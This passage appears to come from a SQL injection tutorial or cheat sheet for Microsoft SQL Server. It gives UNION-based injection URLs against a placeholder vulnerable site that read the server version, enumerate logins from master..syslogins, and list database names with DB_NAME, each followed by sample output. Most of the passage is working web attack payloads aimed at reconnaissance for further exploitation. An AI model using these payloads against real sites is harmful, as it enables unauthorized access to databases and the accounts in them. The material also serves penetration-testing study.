 Returns
```
The Microsoft SQL Server 2012 - 11.0.2100.60 (X64) 
	Feb 10 2012 19:39:15 
	Copyright (c) Microsoft Corporation
	Express Edition (64-bit) on Windows NT 6.2 <X64> (Build 9200: ) (Hypervisor) costs
```

This information can be used to search any exploits/vulnerabilities in the database itself.

### Users Enumeration

To find the current user and all users do the following respectively.

`SELECT user_name()`
`SELECT name FROM master..syslogins`

This will list the user of the database which will help find the permissions of the user the database is logged in as. 

```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+name,NULL+FROM+master..syslogins--
```

Returns
```
The sa costs
The hostname\Administrator costs
The BUILTIN\Users costs
The NT AUTHORITY\SYSTEM costs
```

### Databases Enumeration

There is multiple ways to enumerate the db's, the following is one way.
`UNION SELECT DB_NAME(N),NULL--`  
 N = number, 0 is current db, 1+ is db listed in order


```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT DB_NAME(0),NULL+--
```

Returns
```
The Products_db costs
```
This is the current DB the command is run in.

```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT DB_NAME(1),NULL+--
```

Returns
```
The Users_db costs
```
This is the first DB in the DB
